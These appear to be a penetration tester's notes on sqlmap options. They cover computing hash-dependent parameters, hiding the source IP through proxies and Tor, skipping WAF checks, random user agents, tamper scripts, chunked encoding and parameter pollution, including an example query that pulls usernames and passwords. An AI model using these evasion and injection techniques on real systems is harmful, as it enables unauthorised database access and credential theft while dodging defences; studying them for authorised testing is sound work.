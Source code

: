 >>One parameter may contain a calculated valued based upon another parameter, eg `h=MD5(id)`, where the `h` parameter contains the MD5 hash of the `id` parameter. The `--eval` flag accepts Python code to make this calculation.
>```powershell
>sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
>```
>###### IP address concealing
>```powershell
>--proxy="socks4://177.39.187.70:33283" # Proxy
>
># Proxy list (run through sequentially, in case the first doesn't work)
>--proxy-file
>
>--tor # use Tor network, needs setup beforehand (SOCKS proxy on port 9050 or 9150)
>--check-tor # SQLMap checks that Tor is properly setup
>```
>###### Skip WAF detection
>>[!info]-
>>SQLMap always first sends a test payload that contains a malicious-looking payload within a non-existent parameter to test whether a WAF exists. It looks for a difference in the response to determine whether a WAF exists.
>>
>>If a WAF is detected, SQLMap uses a third-party library `identYwaf` to detect the specific WAF.
>```powershell
>--skip-waf # skip checks for a WAF
>```
>###### Bypass user-agent blacklisting
>```powershell
>--random-agent # changes the default one to a random one from a large pool of values used by browsers
>```
>###### Tamper scripts
>>[!info]-
>>Python scripts that modify payloads just before they're sent to the target. Eg `between` replaces all occurences of `>` with `NOT BETWEEN 0 AND #` and `=` with `BETWEEN # AND #`. This helps to overcome primitive protection mechanisms on the server.
>```powershell
>--tamper=between # single script
>--tamper=between,randomcase # multiple scripts
>--list-tampers # available scripts
>```
>###### Chunked transfer encoding
>>[!info]-
>>Splits the POST request's body into 'chunks', which causes blacklisted SQL keywords to be split and sometimes go unnoticed
>```powershell
>--chunked
>```
>###### HTTP parameter pollution
>>[!info]-
>>Payloads are split in a similar way to `--chunked` (chunked transfer encoding), but this time across multiple parameters of the same name, eg `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`
>```powershell
>--hpp
># eg: ?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...
>```
